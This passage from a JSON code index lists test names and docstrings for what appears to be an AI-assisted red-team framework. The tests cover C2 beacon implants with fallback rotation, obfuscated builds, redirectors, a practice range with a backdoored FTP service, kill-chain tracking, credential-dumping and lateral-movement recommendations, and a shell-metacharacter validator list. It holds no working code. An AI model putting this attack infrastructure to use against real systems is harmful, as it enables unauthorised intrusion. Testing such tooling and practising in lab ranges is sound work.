"test_parse_tunnel_urls_empty", "signature": "def test_parse_tunnel_urls_empty()"}, {"doc": "Non-Cloudflare URLs never enter the redirector inventory.", "kind": "function", "line": 38, "name": "test_parse_tunnel_urls_rejects_non_cloudflare", "signature": "def test_parse_tunnel_urls_rejects_non_cloudflare()"}, {"doc": "Provider allowlist is exactly the four supported targets.", "kind": "function", "line": 45, "name": "test_valid_providers_exact_allowlist", "signature": "def test_valid_providers_exact_allowlist()"}, {"doc": "Infra commands belong to the C2 kill-chain phase.", "kind": "function", "line": 52, "name": "test_infra_phases_as_c2", "signature": "def test_infra_phases_as_c2()"}, {"doc": "Fallback URLs render as a Go string slice body.", "kind": "function", "line": 60, "name": "test_go_string_list_formats_slice", "signature": "def test_go_string_list_formats_slice()"}, {"doc": "Comma-separated param values split into fallback URLs.", "kind": "function", "line": 70, "name": "test_resolve_fallback_urls_param_string", "signature": "def test_resolve_fallback_urls_param_string()"}, {"doc": "List param values pass through stripped.", "kind": "function", "line": 78, "name": "test_resolve_fallback_urls_param_list", "signature": "def test_resolve_fallback_urls_param_list()"}, {"doc": "Go beacon template carries multi-C2 fallback rotation.", "kind": "function", "line": 86, "name": "test_implant_template_has_fallback_helpers", "signature": "def test_implant_template_has_fallback_helpers()"}, {"doc": "Redirector Caddyfile only forwards C2 paths and 404s the rest.", "kind": "function", "line": 95, "name": "test_redirector_caddy_filters_paths", "signature": "def test_redirector_caddy_filters_paths()"}, {"doc": "Redirector compose chains cloudflared through the Caddy filter.", "kind": "function", "line": 103, "name": "test_redirector_compose_routes_to_caddy", "signature": "def test_redirector_compose_routes_to_caddy()"}, {"doc": "Local C2 stack exposes TLS via Caddy with Let's Encrypt storage.", "kind": "function", "line": 111, "name": "test_c2_compose_terminates_tls", "signature": "def test_c2_compose_terminates_tls()"}, {"doc": "Terraform firewall pins port 4444 to the redirector droplet.", "kind": "function", "line": 118, "name": "test_terraform_firewall_restricts_c2_port", "signature": "def test_terraform_firewall_restricts_c2_port()"}, {"doc": "Report generator collects history lines and loot counters.", "kind": "function", "line": 125, "name": "test_report_collects_history_and_loot", "signature": "def test_report_collects_history_and_loot()"}, {"doc": "Template executive summary states 30-day remediation priority.", "kind": "function", "line": 137, "name": "test_report_template_summary_mentions_remediation_windows", "signature": "def test_report_template_summary_mentions_remediation_windows()"}, {"doc": "LLM backend failure never blocks reporting; template is returned.", "kind": "function", "line": 150, "name": "test_report_ai_failure_falls_back_to_template", "signature": "def test_report_ai_failure_falls_back_to_template()"}, {"doc": "Range challenges exist for implant, lateral, and exfil practice.", "kind": "function", "line": 161, "name": "test_gym_range_challenges_registered", "signature": "def test_gym_range_challenges_registered()"}, {"doc": "Lab exposes the ad-mini cyber range profile with compose file.", "kind": "function", "line": 170, "name": "test_lab_range_profiles_registered", "signature": "def test_lab_range_profiles_registered()"}, {"doc": "Range compose references verified images (no fictional repositories).", "kind": "function", "line": 179, "name": "test_range_compose_uses_valid_images", "signature": "def test_range_compose_uses_valid_images()"}, {"doc": "ws01 keeps a foreground shell so boot services stay reachable.", "kind": "function", "line": 189, "name": "test_range_workstation_stays_alive", "signature": "def test_range_workstation_stays_alive()"}, {"doc": "DC consumes the per-deployment admin secret the CLI generates.", "kind": "function", "line": 198, "name": "test_range_dc_secret_wired", "signature": "def test_range_dc_secret_wired()"}, {"doc": "Secret helper creates a 0600 file once and reuses it after.", "kind": "function", "line": 207, "name": "test_range_secret_generator_roundtrip", "signature": "def test_range_secret_generator_roundtrip(tmp_path)"}, {"doc": "Go version strings parse into comparable triples.", "kind": "function", "line": 217, "name": "test_parse_go_version_triples", "signature": "def test_parse_go_version_triples()"}, {"doc": "Every compile command starts with cd so the dispatcher uses bash.\n\nA bare ``CGO_ENABLED=0`` prefix would be argv-split and crash with\n``FileNotFoundError: 'CGO_ENABLED=0'``.", "kind": "function", "line": 228, "name": "test_compile_commands_route_through_shell", "signature": "def test_compile_commands_route_through_shell()"}, {"doc": "Stale garble (built with older Go) is detected before compiling.", "kind": "function", "line": 258, "name": "test_garble_mismatch_detected", "signature": "def test_garble_mismatch_detected()"}, {"doc": "Stale redirector threshold is exactly 24 hours.", "kind": "function", "line": 272, "name": "test_redirector_stale_threshold", "signature": "def test_redirector_stale_threshold()"}, {"doc": "Timeline events render command payloads instead of raw dicts.", "kind": "function", "line": 279, "name": "test_format_timeline_event_summarizes_payload", "signature": "def test_format_timeline_event_summarizes_payload()"}, {"doc": "Techniques without a known tactic still render in the matrix.", "kind": "function", "line": 298, "name": "test_mitre_matrix_keeps_unknown_tactics", "signature": "def test_mitre_matrix_keeps_unknown_tactics()"}, {"doc": "vsftpd backdoor shell port is reachable from the host.", "kind": "function", "line": 309, "name": "test_range_backdoor_shell_published", "signature": "def test_range_backdoor_shell_published()"}, {"doc": "Range verifier reports root only when the shell answers uid=0.", "kind": "function", "line": 318, "name": "test_range_verify_confirms_root", "signature": "def test_range_verify_confirms_root(capsys)"}, {"doc": "Verifier rejects profiles without an exploit without raising.", "kind": "function", "line": 336, "name": "test_range_verify_unknown_profile", "signature": "def test_range_verify_unknown_profile(capsys)"}, {"doc": "Range challenges point at range commands, others stay classic.", "kind": "function", "line": 344, "name": "test_gym_range_next_steps", "signature": "def test_gym_range_next_steps()"}, {"doc": "ps parsing extracts tunnel PIDs and skips our own process.", "kind": "function", "line": 358, "name": "test_find_cloudflared_pids", "signature": "def test_find_cloudflared_pids()"}, {"doc": "Teardown of a missing stack reports success without docker.", "kind": "function", "line": 374, "name": "test_compose_down_missing_file", "signature": "def test_compose_down_missing_file()"}, {"doc": "Payload schema declares the c2_fallback_urls config slot.", "kind": "function", "line": 381, "name": "test_payload_schema_has_fallback_slot", "signature": "def test_payload_schema_has_fallback_slot()"}]}, {"doc": "Fuzzing for input validators and rating boundaries.  Deterministic (seeded) generative tests proving two contracts hold for arbitrary hostile input:  1. Validators never raise: ``check_rhost`` / ``check_lhost`` / ``check_port`` return ``True``/``False`` for anything, including non-strings, huge inputs, and unicode. 2. Validators never accept shell metacharacters: anything they return ``True`` for is free of ``;&|`$(){}!><*?~#'\\\"`` and newlines, and any accepted port is within 1-65535.  Plus boundary fuzzing for ``rate_plugin`` (non-integer and out-of-range stars must raise, never write).", "id": "tests/test_input_fuzz.py", "kind": "module", "label": "test_input_fuzz.py", "language": "py", "sha256": "b808e9c666f7f000", "symbol_count": 8, "symbols": [{"kind": "function", "line": 80, "name": "_random_host", "signature": "def _random_host(rng)"}, {"kind": "function", "line": 85, "name": "_host_inputs", "signature": "def _host_inputs()"}, {"kind": "function", "line": 93, "name": "_port_inputs", "signature": "def _port_inputs()"}, {"kind": "function", "line": 103, "name": "test_host_validators_never_raise", "signature": "def test_host_validators_never_raise(value, capsys)"}, {"kind": "function", "line": 110, "name": "test_accepted_hosts_have_no_shell_metacharacters", "signature": "def test_accepted_hosts_have_no_shell_metacharacters(value, capsys)"}, {"kind": "function", "line": 118, "name": "test_port_validator_never_raise_and_bounded", "signature": "def test_port_validator_never_raise_and_bounded(value, capsys)"}, {"kind": "function", "line": 126, "name": "test_known_good_values_accepted", "signature": "def test_known_good_values_accepted(capsys)"}, {"kind": "function", "line": 139, "name": "test_rate_plugin_rejects_non_integer_stars", "signature": "def test_rate_plugin_rejects_non_integer_stars(tmp_path, stars)"}]}, {"doc": "Intel fusion + LLM defaults regression tests.", "id": "tests/test_intel_fusion.py", "kind": "module", "label": "test_intel_fusion.py", "language": "py", "sha256": "244552f727686b44", "symbol_count": 7, "symbols": [{"doc": "Write a minimal campaign: world model, lazy task, objective, log.", "kind": "function", "line": 20, "name": "_fixture_sessions", "signature": "def _fixture_sessions(tmp_path)"}, {"doc": "Same kind+value always yields the same id.", "kind": "function", "line": 43, "name": "test_node_id_deterministic", "signature": "def test_node_id_deterministic()"}, {"doc": "World, lazy task, objective and logs fuse into one C2 graph.", "kind": "function", "line": 49, "name": "test_build_fuses_all_sources", "signature": "def test_build_fuses_all_sources(tmp_path)"}, {"doc": "Circular/spherical pin positions; force modes stay free.", "kind": "function", "line": 58, "name": "test_layouts_circular_spherical_force", "signature": "def test_layouts_circular_spherical_force(tmp_path)"}, {"doc": "Summary ranks the exposed host and suggests probe intents.", "kind": "function", "line": 69, "name": "test_summary_scores_and_suggests", "signature": "def test_summary_scores_and_suggests(tmp_path)"}, {"doc": "Groq, ollama and agentic legs exist with failover priority order.", "kind": "function", "line": 78, "name": "test_llm_defaults_seeded", "signature": "def test_llm_defaults_seeded()"}, {"doc": "Empty prompt is empty out; dead legs raise for failover.", "kind": "function", "line": 88, "name": "test_factory_complete_rejects_empty", "signature": "def test_factory_complete_rejects_empty()"}]}, {"doc": "Tests for IntelligenceEngine — collection, analysis, intelligence, dissemination.", "id": "tests/test_intelligence_engine.py", "kind": "module", "label": "test_intelligence_engine.py", "language": "py", "sha256": "de95e9b5fc543086", "symbol_count": 27, "symbols": [{"kind": "function", "line": 19, "name": "engine", "signature": "def engine()"}, {"kind": "function", "line": 24, "name": "nmap_xml", "signature": "def nmap_xml(tmp_path)"}, {"kind": "class", "line": 45, "name": "TestCollection", "signature": "class TestCollection"}, {"kind": "class", "line": 108, "name": "TestAnalysis", "signature": "class TestAnalysis"}, {"kind": "class", "line": 159, "name": "TestIntelligenceProduction", "signature": "class TestIntelligenceProduction"}, {"kind": "class", "line": 178, "name": "TestCounterIntelligence", "signature": "class TestCounterIntelligence"}, {"kind": "class", "line": 198, "name": "TestFullCycle", "signature": "class TestFullCycle"}, {"kind": "class", "line": 215, "name": "TestPlaceholderFiltering", "signature": "class TestPlaceholderFiltering"}, {"kind": "method", "line": 46, "name": "test_collect_from_scan_services", "signature": "def test_collect_from_scan_services(self, engine, nmap_xml)"}, {"kind": "method", "line": 56, "name": "test_collect_from_scan_os", "signature": "def test_collect_from_scan_os(self, engine, nmap_xml)"}, {"kind": "method", "line": 63, "name": "test_collect_from_scan_domain", "signature": "def test_collect_from_scan_domain(self, engine, nmap_xml)"}, {"kind": "method", "line": 70, "name": "test_collect_from_scan_hosts", "signature": "def test_collect_from_scan_hosts(self, engine, nmap_xml)"}, {"kind": "method", "line": 76, "name": "test_collect_from_scan_missing_xml", "signature": "def test_collect_from_scan_missing_xml(self, engine)"}, {"kind": "method", "line": 81, "name": "test_collect_from_tool_parses_creds", "signature": "def test_collect_from_tool_parses_creds(self, engine)"}, {"kind": "method", "line": 86, "name": "test_collect_from_tool_filters_placeholders", "signature": "def test_collect_from_tool_filters_placeholders(self, engine)"}, {"kind": "method", "line": 91, "name": "test_collect_from_factstore", "signature": "def test_collect_from_factstore(self, engine, tmp_path)"}, {"kind": "method", "line": 109, "name": "test_analyze_produces_assessments", "signature": "def test_analyze_produces_assessments(self, engine, nmap_xml)"}, {"kind": "method", "line": 115, "name": "test_analyze_maps_apache_cve", "signature": "def test_analyze_maps_apache_cve(self, engine)"}, {"kind": "method", "line": 131, "name": "test_analyze_correlates_creds_to_hosts", "signature": "def test_analyze_correlates_creds_to_hosts(self, engine)"}, {"kind": "method", "line": 143, "name": "test_analyze_ranks_targets", "signature": "def test_analyze_ranks_targets(self, engine)"}, {"kind": "method", "line": 160, "name": "test_produce_intelligence_grades_assessments", "signature": "def test_produce_intelligence_grades_assessments(self, engine)"}, {"kind": "method", "line": 179, "name": "test_credential_exposure_detected", "signature": "def test_credential_exposure_detected(self, engine)"}, {"kind": "method", "line": 188, "name": "test_high_scan_volume_detected", "signature": "def test_high_scan_volume_detected(self, engine)"}, {"kind": "method", "line": 199, "name": "test_run_full_cycle_returns_summary", "signature": "def test_run_full_cycle_returns_summary(self, engine, nmap_xml)"}, {"kind": "method", "line": 205, "name": "test_get_intel_report_structured", "signature": "def test_get_intel_report_structured(self, engine, nmap_xml)"}, {"kind": "method", "line": 216, "name": "test_is_placeholder_detects_change_me", "signature": "def test_is_placeholder_detects_change_me(self, engine)"}, {"kind": "method", "line": 220, "name": "test_is_placeholder_rejects_real_values", "signature": "def test_is_placeholder_rejects_real_values(self, engine)"}]}, {"doc": "Tests for the GitHub Discussions engineering journal.  The journal drives ``gh`` through an injected runner, so these tests exercise the GraphQL wiring and the parsing without touching the network.", "id": "tests/test_journal.py", "kind": "module", "label": "test_journal.py", "language": "py", "sha256": "ba572fbdcde6c565", "symbol_count": 10, "symbols": [{"doc": "Return canned GraphQL payloads keyed by a query fragment.", "kind": "class", "line": 16, "name": "FakeRunner", "signature": "class FakeRunner"}, {"kind": "function", "line": 34, "name": "_success_responses", "signature": "def _success_responses()"}, {"doc": "A repository slug resolves without touching git.", "kind": "function", "line": 51, "name": "test_config_from_remote_slug", "signature": "def test_config_from_remote_slug()"}, {"doc": "A slug without a separator is rejected.", "kind": "function", "line": 58, "name": "test_config_rejects_bare_name", "signature": "def test_config_rejects_bare_name()"}, {"doc": "The create mutation receives the repository and category ids.", "kind": "function", "line": 64, "name": "test_post_entry_uses_resolved_ids", "signature": "def test_post_entry_uses_resolved_ids()"}, {"doc": "Reading returns the discussion nodes.", "kind": "function", "line": 73, "name": "test_entries_returns_nodes", "signature": "def test_entries_returns_nodes()"}, {"doc": "A category that is not present raises instead of silently posting.", "kind": "function", "line": 81, "name": "test_missing_category_raises", "signature": "def test_missing_category_raises()"}, {"doc": "A GraphQL error payload raises a JournalError.", "kind": "function", "line": 93, "name": "test_graphql_errors_raise", "signature": "def test_graphql_errors_raise()"}, {"doc": "Store the responses keyed by a fragment of the query string.", "kind": "method", "line": 19, "name": "__init__", "signature": "def __init__(self, responses)"}, {"doc": "Record the call and return the matching payload as JSON.", "kind": "method", "line": 24, "name": "__call__", "signature": "def __call__(self, args)"}]}, {"doc": "Tests for cli/killchain.py.  The suite verifies that kill-chain progress is derived correctly from the daemon event stream: phases the engagement passed through are marked done, the current phase is active, later phases stay pending, and per-phase activity and reward are accumulated. It also pins the world-model fallback used when no events are available.", "id": "tests/test_killchain.py", "kind": "module", "label": "test_killchain.py", "language": "py", "sha256": "63dff5bbca390b12", "symbol_count": 9, "symbols": [{"kind": "function", "line": 28, "name": "_states", "signature": "def _states(progress)"}, {"kind": "function", "line": 32, "name": "test_empty_events_all_pending_without_world", "signature": "def test_empty_events_all_pending_without_world()"}, {"kind": "function", "line": 38, "name": "test_current_phase_from_step_events", "signature": "def test_current_phase_from_step_events()"}, {"kind": "function", "line": 49, "name": "test_phase_advance_event_sets_current", "signature": "def test_phase_advance_event_sets_current()"}, {"kind": "function", "line": 62, "name": "test_activity_and_reward_accumulate", "signature": "def test_activity_and_reward_accumulate()"}, {"kind": "function", "line": 75, "name": "test_world_phase_fallback_when_no_events", "signature": "def test_world_phase_fallback_when_no_events()"}, {"kind": "function", "line": 81, "name": "test_explicit_completed_phases_respected", "signature": "def test_explicit_completed_phases_respected()"}, {"kind": "function", "line": 86, "name": "test_unknown_phase_in_event_is_ignored", "signature": "def test_unknown_phase_in_event_is_ignored()"}, {"kind": "function", "line": 92, "name": "test_non_dict_payload_is_tolerated", "signature": "def test_non_dict_payload_is_tolerated()"}]}, {"doc": "BDD-style tests for the periodic kill-chain auto-refresh in the tips engine.  Scenario: the unified kill-chain progress is re-surfaced after commands, both on a periodic cadence and whenever the active phase advances.", "id": "tests/test_killchain_auto_refresh.py", "kind": "module", "label": "test_killchain_auto_refresh.py", "language": "py", "sha256": "3956a6e5f663cc32", "symbol_count": 8, "symbols": [{"kind": "function", "line": 12, "name": "_engine", "signature": "def _engine()"}, {"kind": "class", "line": 22, "name": "TestPeriodicAutoRefresh", "signature": "class TestPeriodicAutoRefresh"}, {"kind": "method", "line": 23, "name": "test_shows_immediately_on_phase_change", "signature": "def test_shows_immediately_on_phase_change(self)"}, {"kind": "method", "line": 31, "name": "test_shows_on_cadence_without_phase_change", "signature": "def test_shows_on_cadence_without_phase_change(self)"}, {"kind": "method", "line": 41, "name": "test_cadence_below_every_surpresses", "signature": "def test_cadence_below_every_surpresses(self)"}, {"kind": "method", "line": 50, "name": "test_phase_change_beats_periodic_cadence", "signature": "def test_phase_change_beats_periodic_cadence(self)"}, {"kind": "method", "line": 59, "name": "test_disabled_engine_never_shows", "signature": "def test_disabled_engine_never_shows(self)"}, {"kind": "method", "line": 67, "name": "test_zero_every_and_no_phase_change_never_shows", "signature": "def test_zero_every_and_no_phase_change_never_shows(self)"}]}, {"doc": "Tests for :class:`cli.recommendation_signals.KillchainGapSignal`.  Covers gap detection rules: - EXPLOITED host without privesc - OWNED host without credentials - Scan exists without enumeration - Credentials exist without lateral movement", "id": "tests/test_killchain_gap_signal.py", "kind": "module", "label": "test_killchain_gap_signal.py", "language": "py", "sha256": "f1240f77206471a4", "symbol_count": 20, "symbols": [{"kind": "function", "line": 23, "name": "sessions_dir", "signature": "def sessions_dir()"}, {"kind": "function", "line": 28, "name": "_write_world_model", "signature": "def _write_world_model(sessions_dir, data)"}, {"kind": "class", "line": 32, "name": "TestKillchainGapSignalConstruction", "signature": "class TestKillchainGapSignalConstruction"}, {"kind": "class", "line": 38, "name": "TestGapExploitedNoPrivesc", "signature": "class TestGapExploitedNoPrivesc"}, {"kind": "class", "line": 82, "name": "TestGapOwnedNoCreds", "signature": "class TestGapOwnedNoCreds"}, {"kind": "class", "line": 110, "name": "TestGapScanNoEnum", "signature": "class TestGapScanNoEnum"}, {"kind": "class", "line": 141, "name": "TestGapCredsNoLateral", "signature": "class TestGapCredsNoLateral"}, {"kind": "class", "line": 169, "name": "TestKillchainGapSignalIntegration", "signature": "class TestKillchainGapSignalIntegration"}, {"kind": "method", "line": 33, "name": "test_name_is_gap_source", "signature": "def test_name_is_gap_source(self)"}, {"kind": "method", "line": 39, "name": "test_exploited_linux_recommends_linpeas", "signature": "def test_exploited_linux_recommends_linpeas(self, sessions_dir)"}, {"kind": "method", "line": 51, "name": "test_exploited_windows_recommends_winpeas", "signature": "def test_exploited_windows_recommends_winpeas(self, sessions_dir)"}, {"kind": "method", "line": 63, "name": "test_unscanned_host_no_proposals", "signature": "def test_unscanned_host_no_proposals(self, sessions_dir)"}, {"kind": "method", "line": 75, "name": "test_no_world_model_returns_empty", "signature": "def test_no_world_model_returns_empty(self, sessions_dir)"}, {"kind": "method", "line": 83, "name": "test_owned_no_credentials_recommends_lazydump", "signature": "def test_owned_no_credentials_recommends_lazydump(self, sessions_dir)"}, {"kind": "method", "line": 96, "name": "test_owned_with_credentials_no_proposals", "signature": "def test_owned_with_credentials_no_proposals(self, sessions_dir)"}, {"kind": "method", "line": 111, "name": "test_scanned_no_enum_recommends_gobuster", "signature": "def test_scanned_no_enum_recommends_gobuster(self, sessions_dir)"}, {"kind": "method", "line": 123, "name": "test_scanned_with_enum_recent_no_proposals", "signature": "def test_scanned_with_enum_recent_no_proposals(self, sessions_dir)"}, {"kind": "method", "line": 142, "name": "test_credentials_no_lateral_recommends_crackmapexec", "signature": "def test_credentials_no_lateral_recommends_crackmapexec(self, sessions_dir)"}, {"kind": "method", "line": 155, "name": "test_no_credentials_no_lateral_proposals", "signature": "def test_no_credentials_no_lateral_proposals(self, sessions_dir)"}, {"kind": "method", "line": 170, "name": "test_multiple_gaps_detected_simultaneously", "signature": "def test_multiple_gaps_detected_simultaneously(self, sessions_dir)"}]}, {"doc": "BDD-style tests for the unified kill-chain snapshot contract.  Scenario: a single, render-agnostic snapshot drives every surface (CLI, Flask dashboard, GUI2, API) from one source of truth, and reads state transparently whether persisted plaintext or auto-encrypted at rest.", "id": "tests/test_killchain_snapshot.py", "kind": "module", "label": "test_killchain_snapshot.py", "language": "py", "sha256": "2bd26aae38597810", "symbol_count": 12, "symbols": [{"kind": "function", "line": 17, "name": "_seed_snapshot", "signature": "def _seed_snapshot(path, phase, completed, current)"}, {"kind": "function", "line": 37, "name": "_states", "signature": "def _states(snapshot)"}, {"doc": "Encrypt a plain JSON file into an in-place ``.encrypted`` sibling.", "kind": "function", "line": 41, "name": "_encrypt_at", "signature": "def _encrypt_at(path, password, salt)"}, {"kind": "class", "line": 52, "name": "TestKillChainSnapshot", "signature": "class TestKillChainSnapshot"}, {"kind": "class", "line": 102, "name": "TestEncryptedStateTransparency", "signature": "class TestEncryptedStateTransparency"}, {"kind": "method", "line": 53, "name": "test_empty_snapshot_defaults_to_recon", "signature": "def test_empty_snapshot_defaults_to_recon(self, tmp_path)"}, {"kind": "method", "line": 64, "name": "test_snapshot_reflects_explicit_phase_and_completed", "signature": "def test_snapshot_reflects_explicit_phase_and_completed(self, tmp_path)"}, {"kind": "method", "line": 80, "name": "test_snapshot_is_json_serialisable", "signature": "def test_snapshot_is_json_serialisable(self, tmp_path)"}, {"kind": "method", "line": 90, "name": "test_advance_then_snapshot_is_consistent", "signature": "def test_advance_then_snapshot_is_consistent(self, tmp_path)"}, {"kind": "method", "line": 103, "name": "test_read_state_dict_decrypts_at_rest", "signature": "def test_read_state_dict_decrypts_at_rest(self, tmp_path, monkeypatch)"}, {"kind": "method", "line": 123, "name": "test_missing_file_reads_empty", "signature": "def test_missing_file_reads_empty(self, tmp_path)"}, {"kind": "method", "line": 131, "name": "test_encrypted_without_password_reads_empty", "signature": "def test_encrypted_without_password_reads_empty(self, tmp_path, monkeypatch)"}]}, {"doc": "Tests for unified killchain phase: read_phase, write_phase, phase mapping helpers.", "id": "tests/test_killchain_unified.py", "kind": "module", "label": "test_killchain_unified.py", "language": "py", "sha256": "91cfeb81c5836fc6", "symbol_count": 9, "symbols": [{"kind": "class", "line": 19, "name": "TestPhaseMapping", "signature": "class TestPhaseMapping"}, {"doc": "Integration test: write_phase advances WorldModel hosts.", "kind": "class", "line": 47, "name": "TestWritePhaseWithWorldModel", "signature": "class TestWritePhaseWithWorldModel"}, {"kind": "method", "line": 20, "name": "test_engagement_phase_to_cli_maps_all", "signature": "def test_engagement_phase_to_cli_maps_all(self)"}, {"kind": "method", "line": 29, "name": "test_cli_phase_to_host_state_maps_correctly", "signature": "def test_cli_phase_to_host_state_maps_correctly(self)"}, {"kind": "method", "line": 40, "name": "test_phase_rank_returns_correct_index", "signature": "def test_phase_rank_returns_correct_index(self)"}, {"kind": "method", "line": 51, "name": "sessions_dir", "signature": "def sessions_dir(self)"}, {"kind": "method", "line": 79, "name": "test_write_phase_advances_hosts", "signature": "def test_write_phase_advances_hosts(self, sessions_dir)"}, {"kind": "method", "line": 95, "name": "test_write_phase_invalid_returns_false", "signature": "def test_write_phase_invalid_returns_false(self, sessions_dir)"}, {"kind": "method", "line": 99, "name": "test_write_phase_completed_phases_tracks_progress", "signature": "def test_write_phase_completed_phases_tracks_progress(self, sessions_dir)"}]}, {"doc": "Comprehensive tests for modules.killchain — the unified single source of truth.  Covers: - Config invariants (phase count, labels, colors, mappings). - Phase derivation from WorldModel host states and raw JSON overrides. - Phase advancement (atomic write, completed phases tracking, host advance). - Progress computation. - Edge cases: empty world model, invalid phases, overwritten files.", "id": "tests/test_killchain_unified_v2.py", "kind": "module", "label": "test_killchain_unified_v2.py", "language": "py", "sha256": "486f1a3a56d47851", "symbol_count": 42, "symbols": [{"doc": "Invariants on the centralised configuration.", "kind": "class", "line": 31, "name": "TestKillChainConfig", "signature": "class TestKillChainConfig"}, {"doc": "Phase derivation from WorldModel and raw JSON fallback.", "kind": "class", "line": 103, "name": "TestKillChainCurrentPhase", "signature": "class TestKillChainCurrentPhase"}, {"doc": "Atomic writes that advance the kill chain for all surfaces.", "kind": "class", "line": 184, "name": "TestKillChainAdvancePhase", "signature": "class TestKillChainAdvancePhase"}, {"doc": "Status list generation for all UI renderers.", "kind": "class", "line": 279, "name": "TestKillChainGetProgress", "signature": "class TestKillChainGetProgress"}, {"doc": "Static helpers and display helpers.", "kind": "class", "line": 347, "name": "TestKillChainHelpers", "signature": "class TestKillChainHelpers"}, {"doc": "Behaviour-driven: PhaseStatus is used by every UI surface.", "kind": "class", "line": 394, "name": "TestPhaseStatusDataclass", "signature": "class TestPhaseStatusDataclass"}, {"kind": "method", "line": 34, "name": "test_phases_is_8_tuple", "signature": "def test_phases_is_8_tuple(self)"}, {"kind": "method", "line": 40, "name": "test_phases_are_in_correct_kill_chain_order", "signature": "def test_phases_are_in_correct_kill_chain_order(self)"}, {"kind": "method", "line": 44, "name": "test_compact_phases_are_in_correct_order", "signature": "def test_compact_phases_are_in_correct_order(self)"}, {"kind": "method", "line": 48, "name": "test_all_phases_have_labels", "signature": "def test_all_phases_have_labels(self)"}, {"kind": "method", "line": 53, "name": "test_all_phases_have_colors", "signature": "def test_all_phases_have_colors(self)"}, {"kind": "method", "line": 58, "name": "test_all_phases_have_rich_colors", "signature": "def test_all_phases_have_rich_colors(self)"}, {"kind": "method", "line": 62, "name": "test_engagement_to_cli_covers_all_engagement_phases", "signature": "def test_engagement_to_cli_covers_all_engagement_phases(self)"}, {"kind": "method", "line": 70, "name": "test_cli_to_host_state_returns_expected", "signature": "def test_cli_to_host_state_returns_expected(self)"}, {"kind": "method", "line": 80, "name": "test_phase_index_valid_and_invalid", "signature": "def test_phase_index_valid_and_invalid(self)"}, {"kind": "method", "line": 86, "name": "test_is_valid_phase", "signature": "def test_is_valid_phase(self)"}, {"kind": "method", "line": 91, "name": "test_compact_phases_and_labels", "signature": "def test_compact_phases_and_labels(self)"}, {"kind": "method", "line": 96, "name": "test_world_model_path", "signature": "def test_world_model_path(self)"}, {"kind": "method", "line": 107, "name": "_reset_wm_singleton", "signature": "def _reset_wm_singleton(self)"}, {"kind": "method", "line": 118, "name": "test_returns_recon_when_no_world_model_exists", "signature": "def test_returns_recon_when_no_world_model_exists(self)"}, {"kind": "method", "line": 125, "name": "test_reads_from_world_model_host_state", "signature": "def test_reads_from_world_model_host_state(self)"}, {"kind": "method", "line": 140, "name": "test_raw_json_override_wins_when_higher_rank", "signature": "def test_raw_json_override_wins_when_higher_rank(self)"}, {"kind": "method", "line": 156, "name": "test_raw_json_override_ignored_when_lower_rank", "signature": "def test_raw_json_override_ignored_when_lower_rank(self)"}, {"kind": "method", "line": 172, "name": "test_falls_back_to_legacy_phase_key", "signature": "def test_falls_back_to_legacy_phase_key(self)"}, {"kind": "method", "line": 188, "name": "_reset_wm_singleton", "signature": "def _reset_wm_singleton(self)"}, {"kind": "method", "line": 199, "name": "test_advance_writes_current_phase_and_phase_keys", "signature": "def test_advance_writes_current_phase_and_phase_keys(self)"}, {"kind": "method", "line": 215, "name": "test_advance_tracks_completed_phases", "signature": "def test_advance_tracks_completed_phases(self)"}, {"kind": "method", "line": 233, "name": "test_advance_invalid_phase_returns_false", "signature": "def test_advance_invalid_phase_returns_false(self)"}, {"kind": "method", "line": 243, "name": "test_advance_advances_world_model_hosts", "signature": "def test_advance_advances_world_model_hosts(self)"}, {"kind": "method", "line": 260, "name": "test_advance_does_not_downgrade_cached_world_model_state", "signature": "def test_advance_does_not_downgrade_cached_world_model_state(self)"}, {"kind": "method", "line": 283, "name": "_reset_wm_singleton", "signature": "def _reset_wm_singleton(self)"}, {"kind": "method", "line": 294, "name": "test_all_pending_when_nothing_done", "signature": "def test_all_pending_when_nothing_done(self)"}, {"kind": "method", "line": 307, "name": "test_progress_reflects_completed_and_active", "signature": "def test_progress_reflects_completed_and_active(self)"}, {"kind": "method", "line": 331, "name": "test_progress_has_colors_and_labels", "signature": "def test_progress_has_colors_and_labels(self)"}, {"kind": "method", "line": 350, "name": "test_phases_for_display_returns_triples", "signature": "def test_phases_for_display_returns_triples(self)"}, {"kind": "method", "line": 360, "name": "test_compact_progress_returns_string", "signature": "def test_compact_progress_returns_string(self)"}, {"kind": "method", "line": 366, "name": "test_engagement_phase_to_cli_maps_all", "signature": "def test_engagement_phase_to_cli_maps_all(self)"}, {"kind": "method", "line": 375, "name": "test_cli_phase_to_host_state_maps_all", "signature": "def test_cli_phase_to_host_state_maps_all(self)"}, {"kind": "method", "line": 383, "name": "test_get_killchain_returns_class", "signature": "def test_get_killchain_returns_class(self)"}, {"kind": "method", "line": 387, "name": "test_phase_index_returns_correct", "signature": "def test_phase_index_returns_correct(self)"}, {"kind": "method", "line": 397, "name": "test_phase_status_is_immutable", "signature": "def test_phase_status_is_immutable(self)"}, {"kind": "method", "line": 402, "name": "test_phase_status_fields_match_config", "signature": "def test_phase_status_fields_match_config(self)"}]}, {"doc": "Agentic tool-calling: worker agent path, resume and main sessions.  The model is faked at the client boundary so these tests exercise the real AgentRunner tool loop, the guard-enforced tool executors and the conversation persistence without any network or API key.", "id": "tests/test_lazy_agent.py", "kind": "module", "label": "test_lazy_agent.py", "language": "py", "sha256": "ce47e60a22d28b95", "symbol_count": 18, "symbols": [{"kind": "function", "line": 13, "name": "_tool_call", "signature": "def _tool_call(tool_id, name, arguments)"}, {"kind": "function", "line": 19, "name": "_message", "signature": "def _message(content, tool_calls)"}, {"doc": "Scripted OpenAI-compatible completions endpoint.", "kind": "class", "line": 23, "name": "_Completions", "signature": "class _Completions"}, {"doc": "Build a raw backend shaped like GroqModel for AgentRunner.", "kind": "function", "line": 37, "name": "fake_model", "signature": "def fake_model(script)"}, {"kind": "function", "line": 43, "name": "_sandbox", "signature": "def _sandbox(tmp_path, monkeypatch)"}, {"kind": "function", "line": 50, "name": "_worker", "signature": "def _worker(loop, engine, task_id, graph)"}, {"doc": "BDD: the worker calls tools through the guard and persists facts.", "kind": "function", "line": 63, "name": "test_worker_agentic_tool_calling", "signature": "def test_worker_agentic_tool_calling(tmp_path, monkeypatch)"}, {"kind": "function", "line": 104, "name": "test_worker_agentic_resume_seeds_prior_turns", "signature": "def test_worker_agentic_resume_seeds_prior_turns(tmp_path, monkeypatch)"}, {"kind": "function", "line": 138, "name": "test_main_session_persists_and_resumes", "signature": "def test_main_session_persists_and_resumes(tmp_path, monkeypatch)"}, {"doc": "A slow model call must announce that it is still being awaited.", "kind": "function", "line": 152, "name": "test_model_keepalive_tick_while_waiting", "signature": "def test_model_keepalive_tick_while_waiting(tmp_path, 